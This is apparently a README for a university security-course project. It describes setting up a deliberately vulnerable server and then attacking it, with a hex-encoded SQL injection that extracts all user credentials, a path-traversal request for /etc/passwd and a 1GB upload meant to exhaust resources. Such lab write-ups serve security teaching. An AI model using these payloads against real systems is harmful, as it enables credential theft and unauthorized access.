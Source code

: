 # csci4271-proj2
- Let url be the path to access 443
"enter" means putting the string in the search bar in web browser, 
lines without "enter" is input in terminal

# Running the program:
git clone...
./install.sh
make
sudo ./bcpwm-server
-> Change to another terminal, navigate to the same directory

# Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
enter "<url>/init_client/31/32"
- Confirm user added:
enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
enter "<url>/post-rule/init/admin/1"

# Payload: Inject SQL to extract all user credentials
payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
curl k "<url>/init_client/${payload}/31"

# Inject '../' into the file path parameter to read unauthorized files
payload=$(echo "../../etc/passwd" | xxd -p)
enter "<url>/get_rule/${payload}"

# Generate a large file (1GB) and upload it
dd if=/dev/zero of=largefile.txt bs=1M count=1024
curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"



